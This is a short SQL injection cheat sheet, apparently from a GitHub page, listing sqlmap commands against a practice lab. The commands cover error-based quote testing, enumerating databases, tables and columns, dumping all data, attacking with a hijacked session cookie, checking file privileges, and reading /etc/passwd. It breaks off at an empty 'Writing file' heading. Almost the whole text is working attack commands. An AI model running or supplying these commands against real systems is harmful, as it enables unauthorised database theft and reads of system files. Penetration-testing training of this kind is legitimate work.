 #### Error-Based

#### Simple test

`Adding a simpe quote '`

Example:

```javascript
http://192.168.1.104/Less-1/?id=5'
```

#### List databases

```shell
./sqlmap.py -u http://localhost/Less-1/?id=1 --dbs
```

#### List tables

```shell
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name --tables
```

#### List columns

```shell
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name -T table_name --columns
```

#### Dump all

```shell
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name -T table_name --dump-all
```

#### Set Cookie

```shell
./sqlmap.py -u http://target/ovidentia/index.php\?tg\=delegat\&idx\=mem\&id\=1 --cookie "Cookie: OV1364928461=6kb5jvu7f6lg93qlo3vl9111f8" --random-agent --risk 3 --level 5 --dbms=mysql -p id --dbs
```

#### Checking Privileges

```shell
./sqlmap.py -u http://localhost/Less-1/?id=1 --privileges | grep FILE
```

#### Reading file

```shell
./sqlmap.py -u <URL> --file-read=<file to read>
```

```shell
./sqlmap.py -u http://localhost/Less-1/?id=1 --file-read=/etc/passwd
```

#### Writing file
